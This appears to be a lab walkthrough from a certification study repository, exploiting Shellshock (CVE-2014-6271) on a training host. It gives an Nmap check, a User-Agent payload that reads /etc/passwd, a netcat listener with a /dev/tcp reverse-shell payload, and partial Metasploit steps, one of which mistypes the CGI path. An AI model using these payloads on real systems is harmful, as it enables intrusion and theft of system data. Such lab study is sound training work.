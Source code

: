 # Bash CVE-2014-6271 Vulnerability (Shellshock)


__Step 1: Navigate to the target domain.__

![image0](/Image/Shellshock/image0.jpg)

_A website is running at port 80 of the target._

__Step 2: Right-click and select "View Page Source."__

![image1](/Image/Shellshock/image1.jpg)


_A CGI script is running on the target server._

__Step 3: Use the Nmap NSE script to check if the server is vulnerable to shellshock attack.__

__Command:__

- __`nmap --script http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" demo.ine.local`__

![image2](/Image/Shellshock/image2.jpg)



__Step 4: Right-click and select “Send to Repeater” Option and Navigate to the Repeater tab.__

![image3](/Image/Shellshock/image3.jpg)


__Step 5: Modify the User-Agent and inject the malicious payload.__

__Payload:__

- __`() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'`__


![image4](/Image/Shellshock/image4.jpg)


__Click on the Send button.__

![image5](/Image/Shellshock/image5.jpg)

__Step 6: Start netcat__

command:

__`nc -nvlp 1234`__

__Step 7: use the below payload in user agent__
command:
- __`() { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/<yourip>/1234 0>&1'`__

![image10](/Image/Shellshock/image10.png)

__you will get reverse shell__

![image11](/Image/Shellshock/image11.png)



# Method 2 using metasploit framework

__Step 1: Start the `msfconsole`__
__command:__
- __`service postgresql start & msfconsole`__

![image12](https://github.com/Chittu13/eJPTv2/blob/main/Image/Shellshock/image12.png)

__Step 2: Search shellshock and type the below command__
__command:__
 - __`use exploit/multi/http/apache_mod_cgi_bash_env_exec`__
![image13](/Image/Shellshock/image13.png)

__Step 3: set the rhost and 
__command:__
  - __`set RHOSTS <target ip>`__
  - __`set TARGETURI /gettime.cig`__
![image13](/Image/Shellshock/image14.png)































